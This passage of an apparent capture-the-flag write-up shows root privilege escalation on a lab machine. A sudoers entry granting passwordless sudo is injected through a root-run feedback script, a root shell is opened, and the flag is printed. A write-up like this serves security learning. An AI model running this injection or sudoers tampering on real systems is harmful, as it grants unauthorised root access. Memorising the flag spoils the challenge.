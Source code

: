 ```
deku@myheroacademia:/opt/NewComponent$ sudo ./feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
deku ALL=NOPASSWD: ALL >> /etc/sudoers
It is This:
Feedback successfully saved.
```

```
deku@myheroacademia:/opt/NewComponent$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
    (root) NOPASSWD: ALL

```

now you can run root priviledeges `sudo /bin/bash`

```
root@myheroacademia:/opt/NewComponent# ls
feedback.sh
root@myheroacademia:/opt/NewComponent# cd ..
root@myheroacademia:/opt# ls
NewComponent
root@myheroacademia:/opt# cd ..
root@myheroacademia:/# ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  srv       sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   snap  swap.img  tmp  var
root@myheroacademia:/# cd /root
root@myheroacademia:~# ls
root.txt  snap
root@myheroacademia:~# cat root.txt
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{Y0U_4r3_7h3_NUm83r_1_H3r0}
```